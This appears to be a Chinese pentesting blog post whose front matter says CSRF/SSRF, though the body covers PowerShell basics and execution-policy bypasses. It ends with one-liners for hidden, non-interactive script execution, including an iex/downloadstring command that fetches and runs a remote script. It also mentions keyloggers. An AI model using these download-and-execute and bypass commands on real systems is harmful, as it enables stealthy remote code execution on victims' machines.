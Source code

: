 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      csrf和ssrf               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00powershell简单介绍：
> windows powershell是一种命令行外壳程序和脚本环境，它内置在每个受支持的windows（windows7、windows 2008 R2和更高版本）版本中，可以利用.NET framework的强大功能。
powershell的优点：
- ·windows7以上版本默认安装
- ·powershell脚本可以运行在内存中，不需要写入磁盘
- ·ps脚本可以跨系统，许多工具也是基于powershell开发的
- ·很多安全软件不能检测到powershell的活动
- ·cmd.exe通常会被阻止运行，但是powershell不会
- ·可以用来管理活动目录

powershell的有关基本概念：      
2.1powershell文件：  
一个powershell脚本其实就是一个简单的文本文件，拓展名为.PS1.其中的powershell命令独立一行。  
2.2执行策略：  
为防止恶意脚本的执行，powershell有一个执行策略，默认情况下，这个执行策略被设为受限、所以在powershell脚本无法执行时，可以使用下面的cmdlet命令确定当前的执行策略。  
Get-ExecutionPolicy：
- ·Restricted：脚本不能运行
- ·RemoteSigned：本地创建的脚本可以运行，从网上下载的脚本不能运行（拥有数字证书签名的除外）
- ·AllSigned:仅当脚本由受信任的发布者签名时才能运行。
- ·Unrestricted：允许所有的script运行

可以利用下面的cmdlet命令设置powershell的执行策略  
`Set-ExecutionPolicy <policy name>  `  
2.3运行脚本：  
运行一个ps脚本，必须键入完整的路径和文件名，如果恰好ps脚本位于系统目录中，那么可以".\xxx.ps1"直接执行  
2.4管道：  
管道的作用是将一个命令的输入作为另一个命令的输入，两个命令用管道符号（|）连接。  
例如：get-process p* | stop-process  
3、powershell常用命令：  
文件操作：  
·新建目录：new-item whitecellclub-itemtype directory  
·新建文件：new-item light.txt-itemtype file  
·删除目录: remove-item whitecellclub  
·显示文本内容：get-content test.txt  
·设置文本内容：set-content test.txt-value"hello,world"  
追加内容：add-content light.txt-value"I love you"  
清除内容：clear-content test.txt  
如需帮助，输入help命令显示帮助菜单  
运行powershell脚本时，需要用管理员权限将restricted策略改成unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本，如下：  
- ①绕过本地权限执行：`Powershell.exe-executionpolicy bypass-file xxx.ps1`,执行本地文件
- ②本地隐藏绕过权限执行脚本：`Powershell.exe-executionpolicy bypass-windowstyle hidden-nologo-noninteractive-noprofile-file xxx.ps1`
- ③用iex下载远程ps1脚本绕过权限执行：Powershell.exe-executionpolicy bypass-windowstyle hidden-noprofile-noni iex(new-objectnet.webclient) .downloadstring("xxx.ps1");[parameters]

参数说明：
Windowstyle hidden:隐藏窗口
Nologo: 启动不显示版权标志的powershell
Noninteractive(noni):非交互模式，powershell不为用户提供交互的提示
noprofile（nop）：powershell控制台不加载当前用户的配置文件
noexit：执行后不退出脚本，在使用键盘记录等脚本时非常重要、


